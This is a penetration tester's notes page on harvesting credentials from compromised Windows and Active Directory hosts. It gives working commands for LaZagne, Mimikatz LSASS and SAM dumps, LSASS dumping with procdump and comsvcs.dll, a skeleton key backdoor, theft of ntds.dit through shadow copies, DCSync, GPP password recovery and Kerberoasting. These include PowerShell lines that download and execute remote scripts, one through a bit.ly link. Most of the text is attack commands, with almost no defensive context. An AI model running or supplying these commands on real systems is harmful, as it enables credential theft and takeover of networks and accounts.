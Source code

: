 # Endpoint Harvesting

## **Endpoint Harvesting Tools**

{% tabs %}
{% tab title="Reference" %}
* [http://pwnwiki.io/#!presence/windows/blind.md](http://pwnwiki.io/#!presence/windows/blind.md) - Windows Blind files to search for as an attacker
* [http://pwnwiki.io/#!presence/linux/blind.md](http://pwnwiki.io/#!presence/linux/blind.md) - Linux Blind files
* [http://pwnwiki.io/#!presence/windows/windows\_cmd\_config.md](http://pwnwiki.io/#!presence/windows/windows\_cmd\_config.md) - Commands that display information about the configuration of the victim and are usually executed from the context of the `cmd.exe` or `command.exe` prompt.
* [http://pwnwiki.io/#!presence/windows/network.md](http://pwnwiki.io/#!presence/windows/network.md) - Windows commands to help you gather information about the victim system's network connections, devices and capabilities.
{% endtab %}

{% tab title="LaZagne" %}
### [LaZagne](https://github.com/AlessandroZ/LaZagne)&#x20;

LaZagne is an open-source tool used in post-exploitation to recover stored passwords on a system. Its modules support Windows, Linux, and OSX, but are primarily intended for Windows systems.\
Software uses different techniques to save credentials, such as saving them to a plaintext file, local databases or credential managers. LaZagne is able to search for these common methods and retrieve any passwords it finds.\
LaZagne is capable of extracting passwords from 87 different software applications from the following categories of software:\
Browsers, Chats, Databases, Games, Git, Mails, Maven, Dumps from memory, Multimedia, PHP, SVN, Sysadmin, WIFI, and  Internal mechanism password storage\
The LaZagne tool along with a full list of software that it supports is available in the [public GitHib repository](https://github.com/AlessandroZ/LaZagne).\
\
**Using LaZagne on Windows**

LaZagne's ability to retrieve stored credentials for Windows software is extensive and supports a large number of browsers including Chrome and Firefox, chat clients including Skype, databases, and mail clients including Outlook.\
The tool also supports credential retrieval for many sysadmin utilities like OpenVPN and OpenSSH, and password managers such as KeyPass, which could provide valuable credentials for moving to other hosts in a network.\
\
**Usage**

The Windows version comes with an executable (.exe) file that can be used as a standalone .exe; however, it is not able to detect some credentials such as Google Chrome passwords.\
Simply double clicking on the executable ‘Lazagne.exe' will cause a warning message which indicates that the executable is malicious.&#x20;

* To run the tool successfully, use the command prompt to execute LaZagne:
  * `> lazagne.exe`
  * &#x20;`# Run all modules`
    * `> lazagne.exe all`
  * `# Run the browser modules`
    * `lazagne.exe browsers`
* There is also a Python script in the Windows directory of the LaZagne repository that can run on systems with Python installed. There are a few requirements that may need to be installed first – check the requirements.txt file in the repository for more details.
  * `#python laZagne.py`
  * `# Run all modules`
    * `python laZagne.py all`
  * `# Run modules for Google Chrome. Add the -v flag for verbose output`
    * `python laZagne.py browsers -google -v`


{% endtab %}

{% tab title="Other Tools" %}
*
{% endtab %}
{% endtabs %}

{% embed url="https://youtu.be/AwFyiFOXrd0" %}

## Credential Extraction

<details>

<summary>MimiKatz</summary>

* [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Mimikatz.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Mimikatz.md)

<!---->

* Pulls credentials out of LSASS
  * Can be run im memory so you dont drop and executable on the target
  * Commands - will give clear text pw of currently logged in users
    * \> C:\Tools\password\_attacks\mimikatz.exe
    * \# privilege::debug
    * \# token::elevate #elevate session to SYSTEM level
    * \# kerberos
    * \# wdigest
    * \# lsadump::sam #Dump SAM database
  * Windows 10 issue - Mimikatz will pull a NULL value when pulling creds as they are no longer in LSASS
    * Set registry key to put the credentials back into LSASS
      * \> reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG\_DWORD /d 1 /f
    * Empire Command version
      * \>shell reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG\_DWORD /d 1 /f
    * You will need the user to relog into the system for this to take affect. Force this by locking thier workstation.
      * rundll32.exe user32.dll,LockWorkStation
  * Mimikatz NTLM hash of all users
    * \#reg save hklm\sam filename1.hiv
    * \#reg save hklm\security filename2.hiv
    * mimikatz#privilege::debug
    * mimikatz#token::elevate
    * mimikatz#log hash.txt
    * mimikatz#lsadump::sam filename1.hiv filename2.hiv
  * Mimikittenz
    * POC style tool that utilizes windows function ReadProcessMemory() to extract plain text passwords from various targets such as browsers
    * Search queries preloaded for Gmail, O365, Jira, github, bugzilla,zendesk, Cpanel, Dropbox, onedrive, AWS, SLack, Twitter, and Facebook
    * Does not require Local admin, it runs in Userland mem

</details>

<details>

<summary>Dumping LSASS with out Mimikatz</summary>

* [https://ired.team/offensive-security/credential-access-and-credential-dumping/dump-credentials-from-lsass-process-without-mimikatz](https://ired.team/offensive-security/credential-access-and-credential-dumping/dump-credentials-from-lsass-process-without-mimikatz)
* [https://www.whiteoaksecurity.com/blog/attacks-defenses-dumping-lsass-no-mimikatz/](https://www.whiteoaksecurity.com/blog/attacks-defenses-dumping-lsass-no-mimikatz/)
* ProcDump
  * \>procdump.exe -accepteula -ma lsass.exe lsass.dmp
    * will need local admin to dump LSASS
  * Create dump file by using options within tasklist
  * Executing a native comsvcs.dll DLL found in Windows\system32 with rundll32:
    * .\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump 624 C:\temp\lsass.dmp full

</details>

<details>

<summary>Skeleton Key attack</summary>

* [http://www.secureworks.com/cyber-threat-intelligence/threats/skeleton-key-malware-analysis](http://www.secureworks.com/cyber-threat-intelligence/threats/skeleton-key-malware-analysis)
* Back door a privileged AD account with Mimikatz
* To install the skeleton key
  * \>mimikatz.exe “privilege::debug” “misc::skeleton” exit
* Use
  * \>net use \* \\\dc\c$ mimikatz /user:lab@attacker.domain
  * [https://xapax.github.io/security/#attacking\_active\_directory\_domain/active\_directory\_privilege\_escalation/credential\_extraction/](https://xapax.github.io/security/#attacking\_active\_directory\_domain/active\_directory\_privilege\_escalation/credential\_extraction/)

</details>

<details>

<summary>Volume Shadow Copy</summary>

Once you have Domain Admin access, the old way to pull all hashes from the DC was to run commands on the domain controller and user Shadow volume or Raw copy to pull the ntds.dit file

* _RTFM: Volume Shadow Copy - pg.21_
* Volume Shadow Copy technique (old)
  * NTDS.dit file is constantly being locked as in use by the OS.
  * We can use Volume Shadow Copy to make an copy of it we can extract hashes from
    * C:\vssadmin create shadow /for=C:
    * copy \\\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy\[DISK\_NUMBER]\windows\ntds\ntds.dit
    * copy \\\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy\[DISK\_NUMBER]\windows\system32\config\SYSTEM
    * copy \\\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy\[DISK\_NUMBER]\windows\system32\config\SAM
    * reg SAVE HKLM\SYSTEM c:\SYS
    * vssadmin delete shadows /for=\[/oldest | /all | /shadow=]
* ALT
  * Volume Shadow Copy
    * \#vssadmin list shadows
      * \#set VSHADOW\_DEVICE=\\\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy12
      * \#for /R %VSHADOW\_DEVICE%\ %i in (\*) do @echo %i
      * &#x20;[https://blogs.msdn.microsoft.com/adioltean/2004/12/14/creating-shadow-copies-from-the-command-line/](https://blogs.msdn.microsoft.com/adioltean/2004/12/14/creating-shadow-copies-from-the-command-line/)

<!---->

* Listing shadow copy contents. This is tricky since the shadow copies are not regular (standalone) volumes. These are pseudo-volume devices, without a drive letter or volume name, in the form \\\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopyNNN. You can still access their contents from the command line, if you know how. For example, copying a file from the shadow copy can be done this way:
  * dir > c:\somefile.txt
  * &#x20;vssadmin create shadow /for=c:
  * &#x20;vssadmin list shadows
  * &#x20;(get the shadow copy device, let's say that this is \\\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy12)
  * &#x20;set VSHADOW\_DEVICE=\\\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy12
  * &#x20;copy %VSHADOW\_DEVICE%\somefile.txt c:\somefile\_bak.txt
* To enumerate all files on a shadow copy device we will use the "for /R" command. Note that we used %i and not %%i so the command below will not work properly in a CMD batch file:
  * dir > c:\somefile.txt
  * vssadmin create shadow /for=c:
  * vssadmin list shadows
  * (get the shadow copy device, let's say that this is \\\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy12)
  * set VSHADOW\_DEVICE=\\\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy12
  * for /R• %VSHADOW\_DEVICE%\ %i in (\*) do @echo %i
* NinjaCopy [http://bit.ly/2HpvKwj](http://bit.ly/2HpvKwj)
  * Copies file from an NTFS partition volume by reading the raw volume and parsing the NTFS Strucutres
  * This bypasses file DACL's, read handle blocks, and SACL's
  * This can be used to read SYSTEM files that are normally locked like NTDS.dit registry hives
  * \> Invoke-NinjaCopy -Path “c:\Windows\ntds\ntds.dit” -LocalDestination "c:\Windows\temp\ntds.dit
* DCSync (Modern)
  * Impersonates the DC and requests hashes of all users on the domain
  * No need to touch the DC at all!!
  * Must have proper permissions: Domain Admins/Enterprise Admins/DC groups/ anyone with Replicating Changes permissions seg to Allow
* Mimikatz command
  * Lsadump::dcsync /domain:\[domain] /user:\[account to pull hashes from]
  * Powershell Empire module
    * \>powershell/credentials/mimikatz

</details>

<details>

<summary>Memory Extraction</summary>

* [MimiPenguin](https://github.com/huntergregal/mimipenguin) - A tool to dump the login password from the current linux desktop user.
* [Dumping Lsass.exe to Disk Without Mimikatz and Extracting Credentials - Red Teaming Experiments](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dump-credentials-from-lsass-process-without-mimikatz)&#x20;
* [Internal-Monologue](https://github.com/eladshamir/Internal-monologue) - Internal Monologue Attack: Retrieving NTLM Hashes without Touching LSASS



</details>

#### Windows Service Extraction

{% tabs %}
{% tab title="Windows Native Tools" %}
* WCE - Windows Credential Editor
  * Lists windows logon sessions and add/change/delete associated credentials
* Windows credential manager
  * [https://github.com/peewpw/Invoke-WCMDump/blob/master/Invoke-WCMDump.ps1](https://github.com/peewpw/Invoke-WCMDump/blob/master/Invoke-WCMDump.ps1)
{% endtab %}

{% tab title="GPP Vuln" %}
* Group Policy Preference Vul
  * Info for accounts under GPP stored in a Groups.xml file that contains cpassword hash.
  * Uses a publiclally posed Microsoft AES , easy to find, easy to use
  * Exploit available Under powersploit script Get-GPPPassword.ps1
  * Metasploit module
    * \>use post/windows/gather/credentials/gpp
    * \>set SESSION \[Session # of your shell]
    * \>exploit
  * [http://esec-pentest.sogeti.com/public/files/gpprefdecrypt.py](http://esec-pentest.sogeti.com/public/files/gpprefdecrypt.py)
{% endtab %}

{% tab title="Cached Creds" %}
* Windows Cached Credentials
  * Windows caches the last 10 sets of credentials used on the device by default
  * Metasploit module - cachedump
  * Crack via hashcat
    * format: $DCC2$10240#account\_name#hash
    * oclHashcat64.exe -m 2100 hashes \mscash2.txt lists \crackstat\_realhuman\_shill.txt
    * Warning: With a normal GPU this takes on average 20 days to crack


{% endtab %}

{% tab title="PW Filter DLL" %}
* Password FIlter DLL - used by Windows to enforce password strength policies.
  * System administrators can create password filter DLLs to ensure all password changes meet a minimum requirement.
  * New passwords are passed to the DLL in plaintext, allowing attackers to leverage this Windows feature to steal credentials.
  * Password changes on Windows are handled by the Local Security Authority (LSA). When a password change occurs, the LSA executes each registered password filter to check that the new passwords meets the specified requirements.
  * Each password filter must return ‘true’ for the password change to occur; if any of the filters return ‘false’, an error is displayed to the user. Password filters can be installed locally or on domain controllers (DCs).
  * Password filters are created as DLL files and placed in the ‘C:\Windows\System32’ directory.
  * Once in place, the new file must be registered by adding its name (without the .dll extension) to the registry entry `HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Notification Packages`.
  * The DLL file is comprised of three functions, each of which performs a specific task when executed.
    * `InitializeChangeNotify` is called to notify the filter that a password change has been requested. This function returns true or false to indicate whether if the filter has initialised successfully.
    * &#x20;`PasswordFilter` is called to validate the new password. This function contains the code to test the provided password and returns true or false to indicate if the password is valid.
    * `PasswordChangeNotify` is called to inform the filter if the password change was made successfully.
  * Password filter DLLs can be used by malicious actors to harvest account credentials. The `PasswordFilter` and `PasswordChangeNotify` functions both have access to the plaintext password and the name of the account whose password is to be changed. By installing a malicious password filter, attackers can exfiltrate every updated password to a remote server, local file or even block every password change by setting their filter’s `PasswordFilter` function to always return false.
  * Ensuring that appropriate permissions are set for the `HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Notification Packages` key will prevent unauthorized users or groups from being able to register new filters.


{% endtab %}

{% tab title="Kerberoast" %}
* Kerberoasting
  * Any ticekt can be requested by any user with kerberos, from the domain controller
  * Those tickets are encrypted with the NTLM hash of the associated service user.
  * If we can guess the password to teh associated service user's NTLM hash, then we now know the password to the actual service account
  * Steps:
    * &#x20;List all SPN services. These are the service accounts for which we are going to pull all the kerberos tickets
      * \>setspn -T \[domain] -F -Q \*/\*
    * &#x20;Next we target either a single user SPN or pull all the user Kerberos tickets into our user's memory
      * Single target
        * \>powershell Add-Tpe -AssemblyName System.IdentityModel; New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArguementList “HTTP/\[hostname].\[domain].local”
      * All User tickets
        * \>powershell Add-Tpe -AssemblyName System.IdentityModel; IEX (New-Object Net.WebClient).DownloadString("https://githubusercontent.com/nidem/kerberoast/master/GetUserSPNs.ps1") | ForEach-Object {try{New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArguementList $\_.ServicePrincipalName}catch{}
      * &#x20;And the powersploit tool to automate this!
        * [https://powersploit.readthedocs.io/en/latest/Recon/Invoke-Kerberoast/](https://powersploit.readthedocs.io/en/latest/Recon/Invoke-Kerberoast/)
      * Now we have our tickets imported into memory and we need to extract them.
        * Mimikatz Kerberoast export:
        * \>powershell.exe -exec bypass IEX (New-Object Net.WebClient).DownloadString('http://bit.ly/2qx4kuH'); Invoke-Mimikatz -Command ‘’'''''kerberos::list /export'''''''
        * Once extracted and on our victims machine and we can start cracking them!
          * use tgsrepcrack.py
{% endtab %}
{% endtabs %}
